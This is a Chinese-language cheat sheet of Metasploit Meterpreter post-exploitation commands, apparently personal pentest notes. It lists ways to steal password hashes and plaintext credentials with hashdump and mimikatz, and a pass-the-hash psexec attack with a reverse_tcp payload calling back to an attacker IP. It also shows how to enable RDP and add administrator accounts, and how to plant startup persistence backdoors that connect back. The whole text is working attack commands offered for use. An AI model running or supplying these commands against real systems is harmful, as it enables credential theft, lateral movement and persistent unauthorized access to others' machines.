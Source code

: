 ```R
```

#### 窃取hash及密码&哈希传递
```R
# 窃取hash及密码
hashdump
run post/windows/gather/smart_hashdump
得到的hash可以拿去https://cmd5.com/ 解密一下即是用户密码


#mimikatz
load mimikatz # 加载mimikatz模块
msv  # 获取用户和hash值 
kerberos  # 获取内存中的明文密码信息
wdigest  # 获取内存中的明文密码信息
mimikatz_command -f a:: # 需要以错误的模块来让正确的模块显示
mimikatz_command -f sekurlsa::searchPasswords # 获取用户密码
mimikatz_command -f samdump::hashes  # 执行用户hash

#哈希传递
#利用hashdump得到用户的hash后可利用psexec模块进行哈希传递攻击。
使用psexec的前提：SMB服务必须开启，也就是开启445端口；Admin$可以访问
use exploit/windows/smb/psexec
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.183.147
set LPORT 443
set RHOST 192.168.183.154
set SMBUSER Administrator
set SMBPASS ccf**4ee:3db**678
set SMBDOMAIN  WORKGROUP   # 域用户需要设置SMBDOMAIN
run
```
#### RDP
```R
#getgui命令
#这里需要注意的是通过getgui命令，虽然可以成功添加用户，但是没有权限远程登录桌面，这里推荐使用enable_rdp脚本添加。
run getgui –h  # 查看帮助
run getgui -e  # 开启远程桌面
run getgui -u admin -p admin  # 添加用户
run getgui -f 6666 -e  # 3389端口转发到6666


#enable_rdp脚本
#通过enable_rdp脚本将用户添加到远程桌面用户组和管理员用户组
run post/windows/manage/enable_rdp  #开启远程桌面
run post/windows/manage/enable_rdp USERNAME=admin PASSWORD=admin # 添加用户
run post/windows/manage/enable_rdp FORWARD=true LPORT=6667  # 将3389端口转发到6667

#远程桌面
enumdesktops  # 查看可用的桌面
getdesktop    # 获取当前meterpreter 关联的桌面
setdesktop    # 设置meterpreter关联的桌面  -h查看帮助
run vnc   # 使用vnc远程桌面连接
rdesktop 127.0.0.1:1111 # 需要输入用户名密码连接
rdesktop -u Administrator -p 123 127.0.0.1:1111 # -u 用户名 -p 密码

```
#### 后门植入
```R
# Persistence(通过启动项安装)
run persistence –h  # 查看帮助
run persistence -X -i 5 -p 4444 -r 192.168.183.147 
run persistence -U -i 5 -p 4444 -r 192.168.183.147 -L c:\\Windows\\System32
```